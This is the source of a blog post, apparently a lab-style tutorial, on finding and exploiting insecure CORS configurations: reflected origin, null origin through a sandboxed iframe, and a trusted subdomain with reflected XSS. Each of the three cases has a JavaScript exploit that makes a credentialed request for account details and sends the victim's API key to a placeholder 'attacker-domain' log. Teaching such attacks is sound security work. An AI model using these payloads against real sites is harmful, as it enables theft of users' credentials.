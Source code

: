 ```yaml
---
layout: post
title:  "Detecting and Exploiting Insecure CORS Configuration"
date:   2023-09-25 21:29:20 +0700
categories: jekyll update
usemathjax: true
tag:
  - tips
  - web application
  - CORS
image1:
  - /insecure-cors-configuration/img1.PNG
image2:
  - /insecure-cors-configuration/img2.PNG
image3:
  - /insecure-cors-configuration/img3.PNG
image4:
  - /insecure-cors-configuration/img4.PNG
image5:
  - /insecure-cors-configuration/img5.PNG
image6:
  - /insecure-cors-configuration/img6.PNG
image7:
  - /insecure-cors-configuration/img7.PNG
image8:
  - /insecure-cors-configuration/img8.PNG
image9:
  - /insecure-cors-configuration/img9.PNG
---
```


Helloo readers!

Some of you might be wondering what CORS is? 🤔

CORS or Cross-Origin Resource Sharing is a security feature implemented by web browsers that controls how web pages in one domain can request and interact with resources (such as data, images, or APIs) hosted on another domain. This security feature is designed to prevent malicious websites from making unauthorized requests to a different domain on behalf of a user.

An insecure CORS configurations may pose significant security risks, including 

1. Data Theft (such as API keys and user credentials).
2. Cross-Site Scripting (XSS) attacks.
3. Remote Code Execution.

Properly configuring CORS policies and server settings is crucial to mitigate these risks and protect web applications and user data.


In this blog, I will demonstrate on how to detect and exploit insecure CORS configurations.

### Reflected Origin

The application becomes susceptible when:

1. Server reconfigures `Access-Control-Allow-Origin` header to the domain supplied by the attacker.
2. `Access-Control-Allow-Credentials` set as true.

<figure>
<img src="{{ page.image1 }}" alt="Reflected Origin">
<figcaption>Fig 1. Reflected Origin</figcaption>
</figure>

To exploit this vulnerability, the attacker must first place the JS script on an external server, making it accessible to the target user. Afterward, they need to craft an HTML page, incorporate the JS script within it, and then deliver this page to the user.

<figure>
<img src="{{ page.image2 }}" alt="Exploit Server">
<figcaption>Fig 2. Exploit Server</figcaption>
</figure>


```javascript
<script>
  # Initialize req and url variable
  var req = new XMLHttpRequest();
  var url = ('URL');

  # Set an event handler for when the request is completed
  req.onload = reqListener;
  # Configure the request
  req.open('GET', url + '/accountDetails',true);
  # Enable sending credentials with the request
  req.withCredentials = true;
  req.send();
  # Define the reqListener function
  function reqListener() {
    location='attacker-domain/log?key='+this.responseText;
  };
</script>
```

After storing and delivering the exploit to the victim, the victim's API Key will pop up in our exploit server log.

<figure>
<img src="{{ page.image3 }}" alt="Result">
<figcaption>Fig 3. Result</figcaption>
</figure>

`alWO6sJJnOlhJYwKVmdMMYhiq6xTLuQ1`

### NULL Origin

The application becomes susceptible when:

1. Server reconfigures `Access-Control-Allow-Origin` header to null.
2. `Access-Control-Allow-Credentials` set as true.

<figure>
<img src="{{ page.image4 }}" alt="NULL">
<figcaption>Fig 4. NULL origin</figcaption>
</figure>

To take advantage of the Null Origin vulnerability, we'll employ an iframe with a sandbox attribute to fetch the API key. 
By utilizing the sandbox property, we establish the frame's origin as null, enabling us to configure the Origin header with a null value.

```javascript
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
    var req = new XMLHttpRequest();
    var url = ('URL');

    req.onload = reqListener;
    req.open('GET', url + '/accountDetails',true);
    req.withCredentials = true;
    req.send();
    function reqListener() {
        location='attacker-domain/log?key='+encodeURIComponent(this.responseText);
    };
</script>"></iframe>
```

After storing and delivering the exploit to the victim, the victim's API Key will pop up in our exploit server log.

<figure>
<img src="{{ page.image5 }}" alt="Result">
<figcaption>Fig 5. Result</figcaption>
</figure>

`noF0gu7NCbYRFg6Cq8lkVbwqLR3574rA`

### Trusted Subdomains

The application becomes susceptible when:

1. Server configures `Access-Control-Allow-Origin` header as trusted subdomains.
2. `Access-Control-Allow-Credentials` set as true.

**This exploitation case is dependent on whether the trusted subdomains have any misconfigurations like Cross-Site Scripting.**

<figure>
<img src="{{ page.image6 }}" alt="NULL">
<figcaption>Fig 6. Trusted Subdomains</figcaption>
</figure>

After finding a CORS misconfiguration, it is time to find for exploitable attack vectors.

In this scenario, we found a reflected XSS vulnerability on the 'Check Stock' feature owned by stock trusted subdomain.

<figure>
<img src="{{ page.image7 }}" alt="NULL">
<figcaption>Fig 7. XSS Payload</figcaption>
</figure>

<figure>
<img src="{{ page.image8 }}" alt="NULL">
<figcaption>Fig 8. XSS</figcaption>
</figure>

Craft a one-liner JavaScript to exfiltrate the apiKey

```javascript
<script>
    document.location="http://stock.VULN.net/?productId=1<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://VULN.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://attacker-domain/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
````

After storing and delivering the exploit to the victim, the victim's API Key will pop up in our exploit server log.

<figure>
<img src="{{ page.image9 }}" alt="NULL">
<figcaption>Fig 9. Result</figcaption>
</figure>

`Ldrh2myx9LailPFS4i2zzkxw6chGED6F`


### Unexploitable Case: Wild Card

The application is NOT vulnerable when the Access-Control-Allow-Origin is set to wildcard * , even if the Access-Control-Allow-Credentials header is set to true.

This is because there is a safety check in place that disables the Allow-Credentials header when the origin is set to a wildcard.

So that’s it guys, hoped that my blog could help you better understand CORS.

See you on my next blog post!
